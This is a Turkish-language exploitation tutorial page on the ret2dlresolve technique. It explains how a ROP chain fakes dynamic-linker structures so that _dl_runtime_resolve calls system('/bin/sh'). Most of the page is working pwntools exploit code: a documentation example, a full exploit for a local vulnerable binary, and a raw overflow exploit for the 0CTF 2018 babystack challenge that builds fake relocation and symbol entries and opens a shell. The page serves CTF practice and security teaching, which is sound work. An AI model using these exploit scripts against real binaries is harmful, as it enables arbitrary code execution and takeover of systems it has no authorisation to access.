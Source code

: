 # Ret2dlresolve

{{#include ../../banners/hacktricks-training.md}}

## Temel Bilgiler

[**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) ve [**Relro**](../common-binary-protections-and-bypasses/relro.md) sayfasında açıklandığı gibi, Full Relro olmayan ikili dosyalar, sembolleri (dış kütüphanelere ait adresler gibi) ilk kez kullanıldıklarında çözer. Bu çözümleme, **`_dl_runtime_resolve`** fonksiyonu çağrılarak gerçekleşir.

**`_dl_runtime_resolve`** fonksiyonu, belirtilen sembolü **çözmek** için ihtiyaç duyduğu bazı yapıların yığın referanslarını alır.

Bu nedenle, dinamik bağlantılı çözümlemenin istenen sembolü (örneğin **`system`** fonksiyonu) çözmesi için **tüm bu yapıları sahte hale getirmek** mümkündür ve bunu yapılandırılmış bir parametre ile çağırmak (örneğin **`system('/bin/sh')`**) mümkündür.

Genellikle, tüm bu yapılar, yazılabilir bir bellek üzerinde **`read`** çağrısı yapan bir **ilk ROP zinciri** oluşturarak sahte hale getirilir, ardından **yapılar** ve **`'/bin/sh'`** dizesi, bilinen bir konumda saklanmak üzere okunur ve ardından ROP zinciri **`_dl_runtime_resolve`** çağrısı yaparak devam eder, sahte yapılardaki **`system`** adresini **çözmesini** sağlar ve bu adresi **`'/bin/sh'`** adresi ile çağırır.

> [!TIP]
> Bu teknik, özellikle syscall gadget'ları yoksa (örneğin [**ret2syscall**](rop-syscall-execv/index.html) veya [SROP](srop-sigreturn-oriented-programming/index.html) gibi teknikler kullanmak için) ve libc adreslerini sızdırmanın yolları yoksa faydalıdır.

Bu teknik hakkında videonun ikinci yarısında güzel bir açıklama için bu videoyu kontrol edin:


{{#ref}}
https://youtu.be/ADULSwnQs-s?feature=shared
{{#endref}}

Ya da adım adım açıklama için bu sayfalara göz atın:

- [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/ret2dlresolve#how-it-works)
- [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)

## Saldırı Özeti

1. Bazı yerlerde sahte yapılar yazın
2. system'ın ilk argümanını ayarlayın (`$rdi = &'/bin/sh'`)
3. **`_dl_runtime_resolve`** çağrısı için yığında yapıların adreslerini ayarlayın
4. **Call** `_dl_runtime_resolve`
5. **`system`** çözülecek ve `'/bin/sh'` argümanı ile çağrılacaktır

[**pwntools belgeleri**](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) itibarıyla, bir **`ret2dlresolve`** saldırısı şöyle görünür:
```python
context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('amd64'))
>>> rop = ROP(elf)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:         0x400593 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x400591 pop rsi; pop r15; ret
0x0018:         0x601e00 [arg1] rsi = 6299136
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x4003f0 read
0x0030:         0x400593 pop rdi; ret
0x0038:         0x601e48 [arg0] rdi = 6299208
0x0040:         0x4003e0 [plt_init] system
0x0048:          0x15670 [dlresolve index]
```
## Örnek

### Saf Pwntools

Bu tekniğin [**örneğini burada bulabilirsiniz**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **son ROP zincirinin çok iyi bir açıklamasını içermektedir**, ancak burada kullanılan son istismar:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
### Ham
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html
# This exploit is based off of: https://github.com/sajjadium/ctf-writeups/tree/master/0CTFQuals/2018/babystack

from pwn import *

target = process('./babystack')
#gdb.attach(target)

elf = ELF('babystack')

# Establish starts of various sections
bss = 0x804a020

dynstr = 0x804822c

dynsym = 0x80481cc

relplt = 0x80482b0

# Establish two functions

scanInput = p32(0x804843b)
resolve = p32(0x80482f0) #dlresolve address

# Establish size of second payload

payload1_size = 43

# Our first scan
# This will call read to scan in our fake entries into the plt
# Then return back to scanInput to re-exploit the bug

payload0 = ""

payload0 += "0"*44                        # Filler from start of input to return address
payload0 += p32(elf.symbols['read'])    # Return read
payload0 += scanInput                    # After the read call, return to scan input
payload0 += p32(0)                        # Read via stdin
payload0 += p32(bss)                    # Scan into the start of the bss
payload0 += p32(payload1_size)            # How much data to scan in

target.send(payload0)

# Our second scan
# This will be scanned into the start of the bss
# It will contain the fake entries for our ret_2_dl_resolve attack

# Calculate the r_info value
# It will provide an index to our dynsym entry
dynsym_offset = ((bss + 0xc) - dynsym) / 0x10
r_info = (dynsym_offset << 8) | 0x7

# Calculate the offset from the start of dynstr section to our dynstr entry
dynstr_index = (bss + 28) - dynstr

paylaod1 = ""

# Our .rel.plt entry
paylaod1 += p32(elf.got['alarm'])
paylaod1 += p32(r_info)

# Empty
paylaod1 += p32(0x0)

# Our dynsm entry
paylaod1 += p32(dynstr_index)
paylaod1 += p32(0xde)*3

# Our dynstr entry
paylaod1 += "system\x00"

# Store "/bin/sh" here so we can have a pointer ot it
paylaod1 += "/bin/sh\x00"

target.send(paylaod1)

# Our third scan, which will execute the ret_2_dl_resolve
# This will just call 0x80482f0, which is responsible for calling the functions for resolving
# We will pass it the `.rel.plt` index for our fake entry
# As well as the arguments for system

# Calculate address of "/bin/sh"
binsh_bss_address = bss + 35

# Calculate the .rel.plt offset
ret_plt_offset = bss - relplt


paylaod2 = ""

paylaod2 += "0"*44
paylaod2 += resolve                 # 0x80482f0
paylaod2 += p32(ret_plt_offset)        # .rel.plt offset
paylaod2 += p32(0xdeadbeef)            # The next return address after 0x80482f0, really doesn't matter for us
paylaod2 += p32(binsh_bss_address)    # Our argument, address of "/bin/sh"

target.send(paylaod2)

# Enjoy the shell!
target.interactive()
```
## Diğer Örnekler ve Referanslar

- [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
- [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)
- [https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html](https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html)
- 32bit, relro yok, canary yok, nx, pie yok, temel küçük buffer overflow ve dönüş. Bunu istismar etmek için bof, `read`'i tekrar çağırmak için kullanılır, `.bss` bölümünde daha büyük bir boyut ile, burada `dlresolve` sahte tablolarını yüklemek için `system`'i depolamak, ana fonksiyona dönmek ve başlangıçtaki bof'u yeniden kullanarak dlresolve'u çağırmak ve ardından `system('/bin/sh')` çağırmak için.

{{#include ../../banners/hacktricks-training.md}}
